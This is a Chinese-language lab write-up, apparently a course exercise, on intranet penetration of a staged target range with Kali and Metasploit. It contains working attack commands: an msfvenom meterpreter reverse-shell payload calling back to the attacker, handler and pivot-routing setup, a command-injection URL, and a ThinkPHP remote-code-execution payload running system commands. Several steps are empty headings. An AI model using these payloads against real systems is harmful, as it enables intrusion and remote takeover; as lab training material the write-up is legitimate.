


# 网安实践：内网渗透和攻击

## 实验环境

* kali

* metasploit

## 实验步骤

### 步骤一 设立立足点并发现靶标2-3

1. 在攻击者主机上生成meterpreter.elf文件
` msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<攻击者主机IP> LPORT=<端口> -f elf > meterpreter.elf`


2. 上传


3. 在metasploit里设置如下并`run -j`等待
```
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set lhost <攻击者主机IP>
set lport <端口>
run -j
```
注意，这里的IP和端口要和生成.elf文件时设置的一样

5. 在靶机里运行meterpreter.elf


6. 返回到攻击者主机，可以看到连接成功


7. 升级shell


8. 查看route，arp， ipconfig


9. 设置pivot路由


10. 扫描

扫描100%后查看存活的主机和服务，使用`hosts`和`services`


11. 设置代理
参照[教学课件](https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4.html#/%E5%BB%BA%E7%AB%8B%E7%AB%8B%E8%B6%B3%E7%82%B9%E5%B9%B6%E5%8F%91%E7%8E%B0%E9%9D%B6%E6%A0%872-4)和视频


`cat /etc/proxychains4.conf` 
确认有以下配置

并且配置浏览器代理


12. 成功访问第一层


### 步骤二 攻击新发现的靶机

#### nginx
nginx
1. 设置代理curl扫描到的IP
` proxychains curl http://192.170.84.2`


2. 根据提示执行以下命令
`proxychains curl http://<目标IP>/index.php?cmd=ls%20/tmp`


#### samba

1. 搜索可用攻击模块并选择合适的模块
`search semba type:exploit`

2. 设置options

3. 攻击

4. get flag


### 步骤三 设立pivot路由并发现靶标4-5

1. 查看第一层两台主机的ip


可以看到192.170.84.4这一台机器有双网卡

2. 升级对应的shell


3. 设置pivot路由


### 步骤四 攻击靶标4-5

#### weblogic

#### apache

### 步骤五 发现终点靶标

同样，ip a查看第二层靶机的网卡，发现双网卡

升级shell
`sessions -u <>`
进入新启动的shell
`sessions -i <>`
设置pivot路由
`run autoroute -s 10,10,10,0/24`


扫描发现终点靶标


### 步骤六 攻击终点靶标

#### thinkphp

cve_2018_1002015
1. 浏览器访问以下网页，执行phpinfo()
`http://<目标IP>:<端口>/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=phpinfo&vars%5B1%5D%5B%5D=1`

2. 执行系统命令
`http://<目标IP>:<端口>/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=system&vars%5B1%5D%5B%5D=ls%20/tmp`


## 参考资料

[教学课件](https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4.html#/%E5%BB%BA%E7%AB%8B%E7%AB%8B%E8%B6%B3%E7%82%B9%E5%B9%B6%E5%8F%91%E7%8E%B0%E9%9D%B6%E6%A0%872-4)
